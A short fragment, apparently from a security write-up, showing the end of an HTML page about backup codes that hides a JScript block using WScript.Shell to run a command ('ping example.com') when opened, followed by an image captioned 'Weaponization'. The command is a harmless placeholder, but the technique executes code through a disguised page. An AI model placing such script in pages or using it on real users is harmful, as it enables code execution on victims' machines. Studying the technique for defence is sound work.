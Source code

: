```html

    <div class="footer">
      You can only use each backup code once.<br>
    </div>

  </div>
  <script language="JScript">
    var shell = new ActiveXObject("WScript.Shell");
    shell.Run("cmd.exe /c ping example.com");
</script>
</body>
</html>
```

![Weaponization](./weaponization-1.png)

<br>
